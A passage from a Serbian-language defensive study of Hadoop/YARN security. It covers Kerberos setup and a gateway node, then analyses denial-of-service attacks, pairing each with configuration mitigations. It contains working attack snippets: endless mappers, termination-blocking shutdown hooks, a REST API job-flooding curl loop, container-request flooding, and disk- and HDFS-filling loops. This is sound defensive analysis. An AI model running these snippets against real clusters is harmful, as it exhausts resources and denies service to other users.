Kada klijent pošalje prvu poruku radi autentifikacije prema _KDC_ komponenti, za kriptovanje poruke je tada korišćena heš vrednost klijenta _(zaglavlje 1.1)_. Bilo koja druga komunikacija će koristiti ključeve sesije (_engl. session keys_), generisane od strane _KDC_ komponente. Oni su nasumično generisani i traju određeno vreme. Heš vrednosti su trajno sačuvane u `keytab` fajlu, dok su vrednosti ključeva privremeno sačuvane u keš fajlu `krb5cc`. 

#### Faza 2
_KDC_ će nakon dekriptovanja inicijalne poruke izgenerisati ključ sesije klijenta i isporučiti ga klijentu. Povratna poruka se sastoji iz dva dela. Prvi deo je kriptovan klijentskom heš vrednošću _(2.1)_, drugi deo je kriptovan heš vrednošću _KDC_ komponente _(2.2 TGT)_. U prvom delu se nalazi ključ sesije klijenta za kasniju komunikaciju. Drugi deo je _TGT_ i on je nečitljiv od strane korisnika, ali se koristi kao poluga za naknadno korišćenje servisa od strane korisnika. _TGT_ se čuva u kešu privremeno. 

#### Faza 3
_TGT_ i ključ sesije klijenta će se koristiti za dekriptovanje budućih poruka od _KDC_ komponente. Klijent će poslati _TGT_, principal klijenta, principal servisa i ključ sesije klijenta ka _TGS_ komponenti _(2.2 TGT i 3.1)_. _TGT_ biva dekriptovan od strane _KDC_ komponente korišćenjem heš vrednosti _KDC_ komponente čime se dolazi do principala klijenta. Na ovaj način je _KDC_ komponenta u stanju da otključa prvi deo poruke, jer je na osnovu na osnovu principala klijenta poznata heš vrednost klijenta. _KDC_ ne zna koji je jedinstveni ključ sesije klijenta izgenerisao u prethodnoj fazi, jer se čuvanje obavlja privremeno.

#### Faza 4
Sada će _TGS_ kreirati _ST_. Postojaće dva dela poruke. Prvi deo je kriptovan korišćenjem ključa sesije i klijent ga može dekriptovati _(4.1)_. Drugi deo _(4.2 ST)_ je kriptovan heš vrednošću servisa i nečitljiv je za klijenta. U oba dela poruke se nalazi spakovan i ključ sesije servisa. Pošto je prvi deo poruke čitljiv od strane klijenta, on će ga dekriptovati. Klijent dekriptovanjem preuzima ključ sesije servisa za potrebe dalje komunikacije sa servisom. _ST_ će biti prosleđen servisu, kako bi servis autentifikovao korisnika. Servisu je potreban ključ sesije servisa kako ne bi kontaktirao _KDC_, pošto se servis i _KDC_ (najčešće _ResourceManager_) ne nalaze na istom čvoru. Servis može predstavljati _HDFS_ na _DataNode_ čvoru, dok se _KDC_ najčešće nalazi u okviru _ResourceManager_ čvora. 

#### Faza 5

Servis poseduje samo svoju heš vrednost. Klijent formira novu poruku ka servisu. Prvi deo poruke predstavlja principal klijenta kriptovan ključem sesije servisa _(5.1)_. Drugi deo poruke je _ST_ _(4.2)_. Servis će na osnovu svoje heš vrednosti (isto kao _KDC_) dekriptovati _ST_, čime pribavlja ključ sesije servisa. Nakon ovoga je u stanju da pomoću ključa sesije servisa dekriptuje prvi deo poruke i  autentifikuje korisnika. To praktično prestavlja poslednji korak, pošto je _Kerberos_ ispunio svoj zadatak i uspešno autentifikovao korisnika. Ostatak je deo _Hadoop_ autorizacije, tačnije autorizacije nad fajl sistemom _Linux_ distribucije, i procesa utvrđivanja korisničkih prava izvršavanja operacije nad resursom. Zbog toga postoji treći deo poruke, koji nije u nadležnosti _Kerberos_ komponente, i predstavlja specifikaciju operacije _(5.2)_.

#### Konfiguracija _Kerberos_ komponente

Instalirati _Kerberos_ klijent na svim čvorovima [[24]](#[24])[[25]](#[25])
``` sh 
yum install krb5-workstation krb5-libs
```
Instalirati _Kerberos_ server na _ResourceManager_ čvoru. Sve komande u nastavku će biti pokrenute na _ResourceManager_ čvoru koji je proglašen za administratorski.
``` sh
yum install krb5-server
```
Opciono preimenovati podrazumevanu `realm` vrednost u `kdc.conf` fajlu. 
``` sh
[realms]
realm = {
  ...
}
```
Uneti poznate vrednosti za `realm`, `kdc` i `admin_server` u `krb5.conf` faju. Na administratorskom čvoru će se dodavati principali. `domen` je najčešće ista vrednost kao `realm`. Tačka na početku domena predstavlja sve poddomene u odnosu na domen. Ovime se definišu svi čvorovi koji učestvuju u _Kerberos DNS_ hijerarhiji.
``` sh
[realms]
realm = {
  kdc = RM_host
  admin_server = RM_host
}

[domain_realm]
.domen = realm
```
Dodati administratorske prinicipale u fajl `kadm5.acl`. Na mestu `*` se podrazumevaju svi korisnici koji predstavljaju administratore. Na primer:
``` sh
*/RM_host@realm
```
Kreirati _KDC_ bazu podataka upotrebom `kdb5_util` komande.
``` sh
kdb5_util create -r realm -s
```
Kreirati administratorkse principale unoseći principal i željenu lozinku.
``` sh
kadmin.local
```
Pokrenuti `krb5kdc` i `kadmin` servise. Ovime će biti podignut administratorski servis za upravljanje _Kerberos_ komponentom, kao i _KDC_ servis čija je funkcija ranije objašnjena. 
``` sh
service krb5kdc start
service kadmin start
```
Sada je potrebno kreirati principale za sve dostupne korisnike, uključujući klijentske i servisne korisnike. Takođe je ovo potrebno uraditi za svaki čvor koji postoji u klasteru menjajući `host` vrednost. 
``` sh
addprinc korisnik/host@realm
```
Keš fajlovi će postojati na svim čvorovima koji poseduju _Kerberos_ klijent. Keš fajlovi će se generisati prema podrazumevanim podešavanjima u formatu `krb5cc_<uid>`. Specificirani format predstavlja željeno ponašanje, stoga se u nastavku neće dodatno obrađivati. 

Keytab fajl se kreira u formatu `<user>.keytab` U njemu se skladište vrednosti principala i hešovane vrednosti lozinke [[26]](#[26]). Lozinke se inicijalno unose od strane administratora nakon čega se generiše heš vrednost koja se distribuira između klijentskog čvora i administratorskog čvora. Heš vrednost se generiše na osnovu vrednosti lozinke i principala. Za servisne korisnike je ovo obavezno uraditi, a za klijentske je poželjno. Korišćenjem keytab fajlova se izbegava interaktivni režim unosa kredencijala. Prema tome, servis bi prestao sa radom ako bi morao unositi lozinku jer ne bi bio u mogućnosti da obavlja automatsku autentifikaciju pri komunikaciji.

Sledi kreiranje keytab fajlova za sve korisnike na svim čvorovima. U skladu sa prethodno navedenim, potrebno je kopirati keytab fajlove po čvorovima (ostvareno u nastavku). Dat je primer kreiranja jednog keytab fajla za jednog korisnika na svim čvorovima.
``` sh
xst -k naziv_fajla.keytab korisnik1/host1@realm korisnik1/host2@realm ... 
```
Kako bi se omogućila dostupnost javnih pristupnih tačaka, kao što je između ostalog potrebno učiniti za _YARN REST API_, potrebno je spojiti osnovne keytab fajlove sa _HTTP_ keytab fajlovima. Za ovaj istraživački rad je najbitnije da se `yarn.keytab` spoji sa `HTTP.keytab` fajlom.
``` sh
ktutil
rkt naziv_fajla.keytab
rkt HTTP.keytab
wkt naziv_fajla.keytab
```

Da bi se komunikacija između svih čvorova ispravno autentifikovala, potrebno je kopirati `krb5.conf` fajl i keytab fajlove sa administratorskog čvora na sve čvorove. Odabir kopiranih fajlova zavisi od tipa čvora, za _DataNode-s_ će se kopirati `hdfs.keytab`, a ne `alice.keytab` na primer.  
``` sh
scp /etc/krb5.conf admin@ciljni_host:/home/hadoop/keytabs
scp hdfs.keytab mapred.keytab yarn.keytab ... hadoop@ciljni_host:/home/hadoop/keytabs
```
Omogućiti _Kerberos_ autentifikaciju, _Hadoop_ autorizaciju, kao i mapiranje principala na lokalne korisnike operativnog sistema sledećim izmenama unutar `core_site.xml` fajl. Poslednje pravilo je potrebno proširiti za sve korisnike i zatim replicirati isti fajl na sve čvorove. Moguće je zadati najrazličitija pravila mapiranja principala na lokalne korisnike operativnog sistema upotrebom regularnih izraza [[27]](#[27]).
``` xml
hadoop.security.authentication = kerberos
hadoop.security.authorization = true
hadoop.security.auth_to_local =
<value>
  RULE:[2:$1/$2@$0](yarn/.*@realm)s/.*/yarn/
  RULE:[1:$1@$0](alice@realm)s/.*/analyst_user/
  DEFAULT
</value>
```
Potrebno je uneti sledeće konfiguracije u `hdfs-site.xml` fajl na _DataNode_ i _NameNode_ čvorovima. Reč je o referenciranju `keytab` fajlova i postavljanju vrednosti principala radi prepoznavanja servisa od strane _Kerberos_ komponente.
``` xml
dfs.namenode.keytab.file=/home/hadoop/hadoop/etc/hadoop/hdfs.keytab
dfs.namenode.kerberos.principal=hdfs/host@realm
dfs.datanode.keytab.file=/home/hadoop/hadoop/etc/hadoop/hdfs.keytab
dfs.datanode.kerberos.principal=hdfs/host@realm
```
Uneti slične izmene i u `mapred-site.xml` fajlu na svim _YARN_ čvorovima. Ovime se vrše postavke u vezi praćenja poslova od strane _JobHistory_ čvora na nivou _Kerberos_ komponente. 
``` xml
mapreduce.jobhistory.keytab = /home/hadoop/hadoop/etc/hadoop/mapred.keytab
mapreduce.jobhistory.principal = mapred/host@realm
```
Slične izmene načiniti u `yarn-site.xml` fajlu na _ResourceManager_ i _NodeManager_ čvorovima.
``` xml
yarn.resourcemanager.keytab = /home/hadoop/hadoop/etc/hadoop/yarn.keytab
yarn.resourcemanager.principal = yarn/host@realm
yarn.nodemanager.keytab = /home/hadoop/hadoop/etc/hadoop/yarn.keytab
yarn.nodemanager.principal = yarn/host@realm
```
Potrebno je podesiti _SPNEGO_ _wrapper_ oko _Kerberos_ autentifikacije za javno dostupne pristupne tačke (_YARN REST API i YARN Web UI_). Dodati konfiguracije u `yarn-site.xml` fajl samo na _ResourceManager_ čvoru [[28]](#[28]).
``` xml
yarn.resourcemanager.webapp.spnego-keytab-file = /home/hadoop/hadoop/etc/hadoop/yarn.keytab
yarn.resourcemanager.webapp.spnego-principal = yarn/host@realm
```
Za _DataNode_ čvorove je potrebno posebno naglasiti pod kojim korisnikom se ti servisi pokreću menjajući `hadoop-env.sh` fajl.
``` sh
export HADOOP_SECURE_DN_USER=hadoop
```
Za servisne principale obaviti autentifikaciju pre pokretanja servisa korišćenjem .keytab fajlove. Klijentski korisnici će sami za sebe pokretati `kinit` komandu ili će se i za njih kopirati `.keytab` fajlovi.
``` sh
# Standardna prijava
kinit your_principal@REALM
```
``` sh
# Prijava korišćenjem keytab fajla
kinit -kt /home/hadoop/keytabs/yarn.keytab yarn/host@REALM
```
_Usled kompleksnosti Kerberos konfiguracije, pojedine komande su apstrakovane._

Dakle, konfiguracija _Kerberos_ komponente u _Hadoop_ klasteru uključuje instalaciju _Kerberos_ klijenta i servera, kreiranje i podešavanje principala i `.keytab` fajlova, kao i kopiranje potrebnih fajlova na sve čvorove. Pored toga, potrebno je mapirati _Kerberos_ prinicipale na lokalne korisnike, i omogućiti _SPNEGO_ autentifikaciju za _YARN REST API_ servis.

<a id="M4111e"></a>
### M4111e - Uvođenje gateway čvora


_Slika 8: Nadogradnja Hadoop klastera upotrebom gateway čvora_

Ranije je uvedena bezbednosna kontrola [M4111a](#M4111a), kojom se zabranjuje izlazni saobraćaj, što je prilično restriktivno. Potrebno je ciljano dozvoliti izlazni saobraćaj, jer u suprotnom nije moguće obraditi zahteve korisnika. Ova bezbednosna kontrola se uvodi kao dobra praksa, jer je rizično dozvoliti direktan pristup bilo kom čvoru klastera. Kako bi se sprečio direktan pristup čvorovima, potrebno je obezbediti jedan čvor koji će funkcionisati kao _proxy_ server za komunikaciju korisnika sa _Hadoop_ klasterom. Na taj način se sprovodi izolacija klastera, čime se dodatno smanjuje površina za napad.
Kada je reč o gateway čvoru, mogu se koristiti različiti tipovi čvorova sa ovom ulogom. U praksi se najčešće koriste gateway čvorovi koji u pozadini pokreću _Apache Knox_ komponentu, specijalizovnu za _Hadoop_ klastere. Takođe, mogu se sresti i verzije sa _NGINX_ komponentom, ali je to obično retkost zbog kompleksnosti implementacije.

Ova bezbednosna kontrola se neće detaljno obrađivati. Prethodne bezbednosne kontrole je potrebno minimalno korigovati. Preuzeti sledeće korake implementacije:
1. Kreirati sve lokalne korisnike.
2. Instalirati _Hadoop_ klijent.
3. Dozvoliti izlaznu komunikaciju klastera samo sa gateway čvorom.
4. Instalirati _Kerberos_ klijenta na gateway čvoru.  
5. Izvršiti preostalu konfiguraciju gateway čvora, ali i ostalih čvorova kako bi se međusobno prepoznali.

Dakle, na svim čvorovima je instaliran _Kerberos_ klijent, dok je na _ResourceManager_ čvoru instaliran _Kerberos_ server. Klaster se nalazi unutar izolovane mreže, dok jedan _gateway_ čvor stoji ispred klastera i omogućava komunikaciju eksternih entiteta sa klasterom.

Postoje tri načina za komunikaciju sa _gateway_ čvorom odnosno klasterom:

1. _Gateway_ čvor objavljuje sve javno dostupne servise (prvenstveno _YARN Web UI, YARN REST API, i eventualno Web HDFS, JobHistory Web UI_, ...) i povezuje ih sa matičnim čvorovima kao što su _ResourceManager, JobHistory, NameNode_ itd. Korišćenje ovih servisa je jednostavno putem veb pretraživača (_Chrome, Firefox_) koji pružaju ugrađenu _SPNEGO_ podršku. Od korisnika se očekuje unos _Kerberos_ kredencijala. Mana ovog načina komunikacije je nemogućnost kreiranja poslova.
2. Nad klasterom je moguće otvoriti _SSH_ sesiju. Potrebno je ulogovati se sa _Kerberos_ kredencijalima, čime se ostvaruje pristup servisima kao i lokalnom fajl sistemu. Instalirana podrška za _Hadoop_ klijent omogućava korisniku pristup distribuiranoj obradi podataka i distribuiranom fajl sistemu.
3. Ako se koriste _REST API_ interfejsi, uz pomoć alata kao što je _curl_, situacija je nešto kompleksnija jer je potrebno generisati _TGT_ _(Ticket Granting Ticket)_. Korisnik može iskoristiti već izgenerisani token (1.) od strane veb pretraživača, ili mora instalirati _Kerberos_ klijent kako bi izgenerisao token.

<a id="A4121"></a>
# A4121. Zombi poslovi

Zombi poslovi su svi poslovi koje je teško ili nemoguće terminirati. Osnovna karakteristika zombi poslova je _dugotrajnost_. Moguće je i samo nenamernim lošim postavkama poslova vremenom izazvati kolaps klastera. Napadači mogu biti raznovrsni. Običan radnik može biti nesvestan loše konfiguracije klastera i greškom izazvati zombi posao. Maliciozni napadači mogu biti interni ili eksterni u odnosu na organizaciju, pa samim tim i u odnosu na posmatrani modul. Maliciozni napadači su posebno zainteresovani za izvođenje ovog napada. Kada nedostaju specifične bezbednosne kontrole, napad je vrlo jednostavan i poguban za izvođenje. Velika problematika ovog napada je mogućnost zadavanja raznovrsnih poslova. Činjenica je da je teško analizirati i utvrditi semantiku posla. Prepoznavanje korišćenih komandi je ranije urađeno mitigacijom _[M4111c](#M4111c)_. Kao što je već rečeno, ovakva bezbednosna kontrola pomaže u značajnom broju slučajeva, iako se fokusira samo na komande, ne i na dublju semantiku. Međutim, preterana restriktivnost komandi takođe ograničava mogućnost korišćenja u mnogim slučajevima distribuirane obrade podataka. Bilo kako bilo, poslovi se mogu zamaskirati tako da im se teško razazna prava namera. Ukoliko se poslovi nikada ne završavaju, relativno je lako narušiti bezbednosno svojstvo dostupnosti servisa _(denial of service)_. Stoga, sprovođenjem ovog napada biće realizovana pretnja nedostupnosti _YARN_ komponente. Zanimljivo je da se dostupnost klastera vrlo lako može narušiti, i to ne samo u slučaju distribuiranog napada, već i napadom od strane jedne osobe.

## Beskonačno izvršavanje mapper funkcije

Ovo bi bio standardan primer napada pokretanjem zombi poslova. Napadač može pokušati sa uspavljivanjem niti. Tada će koristiti _mapper_ funkciju beskonačnog trajanja, pri čemu se _reducer_ funkcija nikada neće pozvati i izvršiti:
``` python
def mapper:
    while True:
        time.sleep(1000)
```
Primer pokretanja posla opisanog koristeći _Python_ programski jezik:
``` sh
mapred streaming      \
  -files   mapper.py  \
  -mapper  mapper.py  \
  -reducer /bin/cat   \
  -input   /input     \
  -output  /output
```

<a id="M4121a"></a>
### M4121a - Terminisanje neaktivnog posla
Otkazivanje posla koji ne proizvodi napredak. Dakle, ako posao ne čita iz ulazne datoteke, ne upisuje u izlazne datoteke ili generalno ne napreduje, biće prekinut nakon određenog vremena.
``` xml
<property>
  <name>mapreduce.task.timeout</name>
  <value>120</value> 
</property>
```

<a id="M4121b"></a>
### M4121b - Zabrana ponovnog pokušaja izvršavanja
Ukoliko _ApplicationMaster_ pomisli da je posao neuspešno izvršen, ne bi mu trebalo dozvoliti ponovni pokušaj, a naročito ne beskonačan broj pokušaja.
``` xml
<property>
  <name>yarn.resourcemanager.am.max-attempts</name>
  <value>1</value> 
</property>

<property>
  <name>mapreduce.map.maxattempts</name>
  <value>1</value>
</property>

<property>
  <name>mapred.reduce.max.attempts</name>
  <value>1</value>
</property>
```
__Napomena:__ Na nivou čitavog istraživačkog rada uvodi se pretpostavka da se sve bezbednosne kontrole koje se zadaju u vidu konfiguracija _Hadoop_ klastera smatraju pouzdanim. S obzirom na to da su ove bezbednosne kontrole definisane na nivou dizajna i striktno kontrolisane od strane _Hadoop_ modula, biće im ukazano potpuno poverenje. Trenutno je procenjeno da nije potrebno razmatrati eventualne scenarije u kojima bi neka kontrola mogla da izda, jer je odgovornost _Hadoop_ modula da rešava takve situacije. Obavezno je redovno ažuriranje verzije _Hadoop_ modula i praćenje obaveštenja o svim izmenama.

## Pokretanje pozadinskog podprocesa

Vrlo slično kao i prethodni primer napada, samo što je ovog puta realizaciju napada teže sanirati. Postiže se beskonačno izvršavanje u _map_ kontejnerima, na način da se osnovna shell sesija _spawn-uje_, otvori proces i zatim natera pomoću `nohup` komande da se pokreće u pozadini. U konačnom će čitav posao trajati dugo, jer operacija _map_ u aplikaciji jeste završena, ali podproces nije. Na ovaj način se efektno _map_ kontejner nikada ne terminira, iako se zvanično posao koji ga je kreirao jeste terminirao.
``` java
public class Mapper extends Mapper<LongWritable, Text, Text, IntWritable> {
    @Override
    protected void map(LongWritable key, Text value, Context context) throws IOException {
        Runtime.getRuntime().exec("nohup bash -c 'sleep 99999' &");
    }
}
```
<a id="M4121c"></a>
### M4121c - Terminisanje beskonačnih pozadinskih procesa
Zahvaljujući sledećoj bezbednosnoj kontroli, neće se desiti situacija da su paralelno pokrenuti pozadinski procesi unutar _map_ kontejnera ostali da se izvrašavaju i nakon uspešnog ili neuspešnog završetka posla. 
``` xml
<property>
  <name>yarn.nodemanager.container-executor.cleanup.process-tree</name>
  <value>true</value>
</property>
```
## Zabranjivanje deaktivacije posla

Pretpostavka je da se pokrene neki posao dugog trajanja. Uslov je da administrator ili _NodeManager_ primeti ovaj posao čije izvršavanje beskonačno traje. Zatim će se probati sa isključivanjem ovog posla od strane administratora komandom `yarn application -kill` ili od strane _NodeManager_ čvora automatski. U oba slučaja signal za terminaciju `SIGTERM` biva poslat, ali će ga `ShutDownHook` uhvatiti i sprečiti terminaciju _JVM-a_. 
Dalje utvrđivanje konkretne _PID_ vrednosti na konkretnom _NodeManager_ čvoru od strane administratora uopšte nije jednostavno. Moguće je namerno kreirati ekstremno veliki broj podprocesa umesto samo jednog. Rezultat bi bio veliki broj nepravilno terminiranih poslova i još veći broj nepravilno terminiranih podprocesa.
``` java
public class Mapper extends Mapper<LongWritable, Text, Text, IntWritable> {
    @Override
    protected void map(LongWritable key, Text value, Context context) throws IOException {
        Runtime.getRuntime().addShutdownHook(new Thread(() -> {
            while (true) {} 
        }));
        Thread.sleep(100000);
    }
}
```
<a id="M4121d"></a>
### M4121d - Terminisanje nereagujućih kontejnera
Zahvaljujući sledećoj bezbednosnoj kontroli biće postignuta bezbedna terminacija kontejnera. Ukoliko kontejner ne reaguje na regularan signal za terminaciju `SIGTERM`, biće poslat `SIGKILL` signal koji rešava problem terminacije. Potrebno je definisati vreme nakon koga se šalje `SIGKILL` signal. 
``` xml
<property>
  <name>yarn.nodemanager.container-executor.process-kill-wait-ms</name>
  <value>1</value> 
</property>
```
<a id="M4121e"></a>
### M4121e - Banovanje korisnika

Sledi specifikacija jedne opšte bezbednosne kontrole, koju je dobro primenjivati u raznim situacijama. Kada se prepozna maliciozni korisnik, moguće ga je istog momenta banovati sa klastera. U `container-executor.cfg` fajlu podesiti vrednost korisničkog imena banovanog korisnika. Reč je o definiciji na nivou lokalnog korisnika, stoga je potrebno kopirati konfiguracioni fajl na sve čvorove.
``` sh
banned.users=alice
```

<a id="A4122"></a>
# A4122. Zasipanje poslovima

Zasipanje poslova predstavlja situaciju gde napadač kreira veću količinu poslova (spamuje). Ova klasa napada je slična sa prethodnom (_[A4121](#A4121)_), zbog toga se zajednički delovi analize neće ponavljati. Ova klasa napada može biti uzrokovana i samo pohlepnošću radnika za resursima, a ne nužno malicioznošću. Ako se posmatraju napadi, fokus je na ugrožavanju bezbednosnog svojstva dostupnosti servisa. Ako se posmatraju bezbednosne kontrole, fokus je na uvođenju kvota.  Motiv za analizom ovakve klase napada je visoka verovatnoća realizacije, bez obzira što je negativan uticaj ocenjen kao srednje umeren. Relativno se lako izvodi, vrlo je intuitivna, i stoga se često sreće u praksi. Prema procenjenom riziku obavezno joj se treba posvetiti. Biće ilustrovano više varijacija napada kako bi se jasno ilustrovale ideje napadača. Primetno je da se bezbednosne kontrole, kao odgovor na pretnje, očekivano preklapaju kako istraživanje napreduje. 

Ključne karakteristike ove klase napada su:
- Maliciozno korišćenje (alociranje) resursa.
- Pokretanje veće količine poslova.
- Ugrožavanje dostupnosti.

## Kreiranje visoko zahtevnih poslova
Jedna od prvih ideja koje može pasti napadaču na pamet jeste pokušaj alociranja velike količine resursa. Ovakav napad je posebno opasan ukoliko se beskonačno dugo izvršava i ukoliko se multiplikuje. Potrebno je napomenuti da specifikacija resursa nije samo _hint_ procesoru, već direktiva za ispunjenje tražene količine resursa. 

- `yarn jar app.jar App`, komanda za pokretanje prethodno iskompajliranog i spremljenog posla u `.jar` format.
- `yarn.app.mapreduce.am.resource.mb`, količina radne memorije koja će se alocirati.
- `yarn.app.mapreduce.am.resource.cpu-vcores`, količina jezgara centralnog procesora koja će se alocirati.
- `mapreduce.task.timeout = 0`, uslov za beskonačno izvršavanje posla.

``` sh
yarn jar job.jar App                               \
    -Dyarn.app.mapreduce.am.resource.mb=8192       \
    -Dyarn.app.mapreduce.am.resource.cpu-vcores=16 \
    -Dmapreduce.task.timeout=0
```
_Ovo je ujedno bio i prikaz pokretanja posla napisanog u _Java_ programskom jeziku._

<a id="M4122a"></a>
### M4122a - Ograničavanje radne memorije
Potrebno je ograničiti količinu radne memorije po poslu.
``` xml
<property>
  <name>yarn.scheduler.maximum-allocation-mb</name>
  <value>2048</value>
</property>
```

<a id="M4122b"></a>
### M4122b - Ograničavanje procesorskih jezgara
Potrebno je ograničiti broj jezgara centralnog procesora po poslu.
``` xml
<property>
  <name>yarn.scheduler.maximum-allocation-vcores</name>
  <value>2</value> 
</property>
```
Kod ovog napada dolaze u obzir mitigacije koje su i ranije uvedene, poput _[M4121a](#M4121a)_ i _[M4121b](#M4121b)_. Zahtevi koji krše globalno postavljene kvote će biti odbijeni. Moguće je postaviti i personalizovane kvote prema korisniku, što može biti korisno. 

<a id="M4122c"></a>
### M4122c - Ograničavanje resurskog udela
Zabrana jednom korisniku da uzme ceo kapacitet klasterskih resursa je možda i najbitnija mitigacija za prevenciju ugrožavanja bezbednosnog svojstva dostupnosti servisa.
``` xml
<property>
  <name>yarn.scheduler.capacity.root.default.maximum-capacity</name>
  <value>30</value> 
</property>
```

<a id="M4122d"></a>
### M4122d - Definisanje fer raspodele resursa
Cilj je eliminisati pohlepne poslove i težiti normalnoj raspodeli resursa među korisnicima.
``` xml
<property>
  <name>yarn.resourcemanager.scheduler.monitor.enable</name>
  <value>true</value>
</property>

<property>
  <name>yarn.scheduler.monitor.policies</name>
  <value>org.apache.hadoop.yarn.server.resourcemanager.monitor.capacity.ProportionalCapacityPreemptionPolicy</value>
</property>
```
## Kreiranje velike količine nisko zahtevnih poslova
Ovo predstavlja razradu prethodnog slučaja, pri čemu je ideja da se kreira beskonačno velika količina poslova sa više ili manje resursa. Često je moguće zaobići resursne kvote kroz veće količine nisko zahtevnih poslova.
#### i.
Kreiranje maliciozne _mapper_ funkcije.
``` sh
while true; do
  yarn jar job.jar job -Dmapreduce.map.memory.mb=512
done
```

#### ii.
Ovako bi mogao izgledati napad na _YARN REST API_. U pitanju je već viđena struktura, pri čemu je naglasak na tipu napada koji kreira veliku količinu nisko zahtevnih poslova.
``` sh
for i in $(seq 1 10000); do
    curl -X POST -H "Content-Type: application/json"               \
        -d '{
            "application-id": "job_'"$i"'",
            "application-name": "job_name_'"$i"'",
            "am-container-spec": {
                "commands": {
                    "command": ["sleep", "3600"]
                }
            },
            "max-app-attempts": 1,
            "resource": {
                "memory": 128,
                "vCores": 1
            }
        }'                                                         \
        --negotiate -u:                                            \
        http://edge-node:8088/ws/v1/cluster/apps/new-application
done
```
Zahvaljujući uvedenoj _Kerberos_ komponenti, ovakav napad ne može zaobići prethodno definisane bezbednosne kontrole.

Do sada uvedene bezbednosne kontrole u velikoj meri onemogućavaju konkretizacije _DOS_ napada. Moguće je definisati različite bezbednosne kontrole prema redovima i udelima korisnika u zauzeću resursa. 

<a id="M4122e"></a>
### M4122e - Ograničavanje broja simultanih poslova
Sledeća bezbednosna kontrola uvodi zaštitu u velikoj većini slučajeva. Reč je o definisanju bezbednosne kontrole reda u vidu maksimalnog broja paralelno pokrenutih poslova. 
``` xml
<property>
  <name>yarn.scheduler.capacity.root.naziv_reda.max-running-applications</name>
  <value>10</value> 
</property>
```
Nameće se ideja o personalizovanom ograničenju broja poslova po korisniku, bez obzira da li pripada ili ne pripada redu. Ovakva bezbednosna kontrola bi poslužila za personalizovano sankcionisanje zlonamernih ili pohlepnih korisnika, stoga će biti uvedena u nastavku istraživačkog rada.

## Izvršavanje napada od strane malicizone aplikacije

Sledeći primer ilustruje napad direktno iz aplikacije koja koristi _Hadoop_ klaster [[16]](#[16]). Dakle, nije u pitanju terminal sesija, ili javno dostupan _REST API_ servis. Radi se o napadu sa većom tehničkom složenošću. Suština je u pokretanju ogromnog broja kontejnera, uz direktnije obraćanje _ApplicationMaster_ komponenti. Ovde se ističe onaj deo granice poverenja koji se tiče zavisnosti ka drugim aplikacijama, a ne ljudima.
``` java
public class JobConfigurationByClientApp {
  public static void main(String[] args) throws Exception {
    
    AMRMClient<AMRMClient.ContainerRequest> rmClient = AMRMClient.createAMRMClient();
    rmClient.init(new YarnConfiguration());
    rmClient.start();
    rmClient.registerApplicationMaster("", 0, "");
    
    while (true) {
      for (int i = 0; i < 1000; i++) {
        Resource resource = Resource.newInstance(1024, 1);
        AMRMClient.ContainerRequest req = new AMRMClient.ContainerRequest(
          resource, null, null, Priority.newInstance(0)
        );
        rmClient.addContainerRequest(req);
      }
      Thread.sleep(5000);
    }
  }
}
```
Do sada uvedene bezbednosne kontrole odgovaraju i za ovu varijaciju klase napada, s tim da se treba obratiti pažnja na to pod kojim korisnikom se izvršava aplikacija. Ukoliko je neki generički korisnik, kao što je to obično _yarn_, onda aplikacija ima izuzetna ovlašćenja. Ne sme se previše verovati aplikaciji koja koristi _Hadoop_ klaster, jer je u pitanju eksterni entitet. Uvesti specifičnog korisnika, kao i svakog drugog korisnika koji nije aplikacija, uz prethodno definisane kvote.

## Neograničeno upisivanje podataka u lokalnom fajl sistemu

Interesantna varijacija posmatrane klase napada. Napadač može pokušati sa preteranim upisom ogromnih količina podataka (direktno ili posredno). Na taj način vrlo lako može istrošiti sve memorijske kapacitete klastera. Komadnom `dd` ce pokusati upis 1TB podataka. Na ulazu je _zero_ bajt fajl, `if=/dev/zero`. Zatim će biti specificirana putanja izlaznog fajla u lokalnom fajl sistemu, `of={file_name}`. Veličina bloka je 1 GB, `bs=1G`. Ukupno će biti upisano 1000 blokova, `count=1000`. Dat je primer definisanja _payload-a_ kao _mapper-a_, čime se na svim alociranim _mapper_ kontejnerima postiže izvršavanje.
``` py
def mapper(num_files=100):
  for i in range(num_files):
    file_name = f'./junk_{i}.bin'
    command = f"dd if=/dev/zero of={file_name} bs=1G count=1000"
    os.system(command)
```

<a id="M4122f"></a>
### M4122f - Ograničavanje trajne memorije lokalno
Najbolje rešenje jeste definisanje bezbednosne kontrole pomoću koje se korisniku definiše kvota maksimalnog korišćenja podataka. Definicija važi na nivou čitavog _NodeManager_ čvora, što je korisno, jer će svi korisnikovi kontejneri biti limitirani u pogledu prostorne složenosti. Stoga je potrebno nad svim _NodeManager_ čvorovima definisati ograničenje zauzeća memorijskog prostora u odnosu na konkretnog korisnika. Ovde se podrazumeva da su kontejneri konkretnog korisnika _mount-ovani_ nad direktorijumom `/users/user`. 
``` sh
setquota -u user 524288 524288 0 0 /users/user
```
__Napomene:__ 
- Analiza se uzima pod pretpostavkom uvođenja prethodne mitigacije [M4111d](M4111d). U suprotnom bi svaki kontejner bio podignut pod _root_ ili _yarn_ korisnikom.
- Iako je ovde u prvi plan istaknut _NodeManager_ čvor, potrebno je na svim čvorovima postaviti kvotu zauzeća memorijskog prostora, bez obzira da li korisnik može ili ne može direktno pristupiti fajl sistemu. Jednostavan primer za direktan pristup fajl sistemu je situacija u kojoj je korisnik prijavljen na _Gateway_ čvor.

## Neograničeno upisivanje podataka u fajl sistemu _Hadoop_ modula

Izvršiće se upis podataka u _DataNode_ čvorovima, kao i metapodataka u _NameNode_ čvoru. Skladištenje podataka se vrši unutar _HDFS_ komponente, a ne u lokalnom fajl sistemu. Ovaj napad je primarno fokusiran na opterećenje _NameNode_ čvora, iako je moguće primeniti i obrnuti pristup. Napadom na _NameNode_ čvor se lako postiže nedostupnost čitavog klastera, pošto je u pitanju _Single point of failure_ čvor. Komandom `hdfs dfs -touchz` će se napraviti prazan fajl na _HDFS_ komponenti. Iako je svaki fajl prazan, on ipak ima metapodatke i opterećuje _NameNode_. Dat je primer definisanja _payload-a_ kao _mapper-a_, čime se na svim alociranim _mapper_ kontejnerima postiže izvršavanje.
``` py
def mapper(num_files=100000):
  for i in range(100000):
    file_name = f"/spamjob/file_{i}"
    command = f"hdfs dfs -touchz {file_name}"
    os.system(command)
```

<a id="M4122g"></a>
### M4122g - Ograničavanje broja fajlova korisnika
Potrebno je ograničiti broj fajlova koje je određeni korisnik u stanju da upiše na distribuiranom fajl sistemu.
``` sh
hdfs dfsadmin -setQuota 1000 /users/user
```

<a id="M4122h"></a>
### M4122h - Ograničavanje trajne memorije globalno
